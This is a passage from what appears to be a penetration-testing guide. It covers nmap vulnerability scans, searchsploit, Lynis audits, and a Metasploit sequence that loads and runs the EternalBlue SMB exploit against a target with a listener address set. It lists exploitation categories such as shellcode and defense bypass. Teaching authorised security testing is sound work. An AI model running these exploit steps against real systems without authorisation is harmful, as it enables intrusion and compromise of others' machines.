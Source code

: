 ### Network Vulnerability Assessment
```bash
# Nmap vulnerability scanning
nmap --script vuln 192.168.1.1

# Search for exploits
searchsploit apache 2.4.48
```

### Compliance and Configuration Assessment
- Checking against CIS benchmarks
- Reviewing for compliance (PCI DSS, HIPAA, etc.)
- Identifying misconfigurations
  ```bash
  # Lynis for system auditing
  lynis audit system
  ```

## Exploitation

### Metasploit Framework
```bash
# Start Metasploit
msfconsole

# Search for exploits
search type:exploit platform:windows apache

# Use an exploit
use exploit/windows/smb/ms17_010_eternalblue

# Set required options
show options
set RHOSTS 192.168.1.1
set LHOST 192.168.1.100

# Run the exploit
exploit
```

### Common Exploitation Categories
- Buffer overflows
- SQL injection
- Command injection
- Cross-site scripting (XSS)
- Remote code execution
- Privilege escalation

### Manual Exploitation Techniques
- Crafting custom exploits
- Modifying public exploits
- Creating shellcode
- Bypassing defenses
